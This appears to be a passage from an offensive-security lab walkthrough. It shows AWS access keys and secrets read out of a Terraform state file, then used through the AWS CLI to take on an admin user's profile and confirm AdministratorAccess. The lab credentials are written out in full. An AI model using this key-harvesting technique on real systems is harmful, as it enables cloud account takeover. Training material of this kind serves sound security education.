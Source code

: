 ```hlt:1,AdministratorAccess,ReadOnlyAccess
016            "email": "Zeljko.Bebek@offseclab.io",
017            "name": "Zeljko.B",
018            "phone": "+1 555-123-4568",
019            "policy": "arn:aws:iam::aws:policy/ReadOnlyAccess"
020          },
021          {
022            "email": "Alen.Islamovic@offseclab.io",
023            "name": "Alen.I",
024            "phone": "+1 555-123-4569",
025            "policy": "arn:aws:iam::aws:policy/ReadOnlyAccess"
026          }
027        ],
...
041    },
```
- Three Users including one admin

 Reviewing State File - Keys
 ```hlt:21,23
042    "resources": [
043      {
...
049          {
050            "index_key": "Alen.I",
051            "schema_version": 0,
052            "attributes": {
...
056              "id": "AKIAUBHUBEGIKIZJ7OEI",
...
059              "secret": "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",
...
063            },
...
069          },
070          {
071            "index_key": "Goran.B",
072            "schema_version": 0,
073            "attributes": {
...
077              "id": "AKIAUBHUBEGIGZN3IP46",
...
080              "secret": "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",
...
084            },
...
090          },
```

Configuring Goran.B Profile Using AWS CLI
```
kali@kali:~$ aws configure --profile=goran.b                                                 
AWS Access Key ID [None]: AKIAUBHUBEGIGZN3IP46
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]: 
```

List policies attached to user to confirm they're an admin
```hlt:1
kali@kali:~$ aws --profile=goran.b iam list-attached-user-policies --user-name goran.b
{
    "AttachedPolicies": [
        {
            "PolicyName": "AdministratorAccess",
```